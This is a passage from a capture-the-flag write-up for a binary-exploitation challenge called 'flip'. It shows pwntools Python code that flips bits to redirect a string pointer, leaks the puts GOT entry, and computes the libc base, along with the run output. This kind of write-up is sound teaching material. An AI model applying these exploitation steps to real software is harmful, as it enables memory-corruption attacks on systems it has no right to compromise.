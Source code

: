 `buf` is probably 0x80 bytes large. This buffer is printed in `main()`, so we
can use this to get an info leak. We do this by changing the `welcome_str`
pointer, thus controlling what is written into `buf`.

One problem that showed up early when trying to change different pointers, etc.,
was that the pointers ended up pointing to invalid data while flipping bits.
So some pointers need to be changed with only 5 bit flips, before they are
used again when the code returns back to `_start()`.

We added a `flip_count` variable and the following function to "pad" with
useless bit flips:
```python
# we need to pad our flips when changing functions that will be called during
# the next "round"
def pad_flips():
	global flip_count
	for i in range(5 - (flip_count % 5)):
		r.recvuntil("to flip: ")
		r.sendline("{:#x}:{}".format(elf.got["__stack_chk_fail"], 0))
```

Here's the Python solution script for our info leak:
```python
welcome_str = elf.symbols["welcome_str"]
welcome_str_addr = 0x400b51
target = elf.got["puts"]
arbitrary_write(welcome_str, target, welcome_str_addr)
pad_flips()

r.recvuntil("Have a nice day :)\n")
leak = u64(r.recvline()[:-1].ljust(8, "\x00"))
log.info("leak: {:#x}".format(leak))
libc_base = leak - libc.symbols["puts"]
log.success("libc base: {:#x}".format(libc_base))
```

Let's run the code and see what happens:
```bash
$ python2 solve.py 
[+] Starting local process './flip': pid 11965
[*] '/home/user/flip'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/user/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] exit: 0x400766
[*] leak: 0x7f53f8df69c0
[+] libc base: 0x7f53f8d76000
```

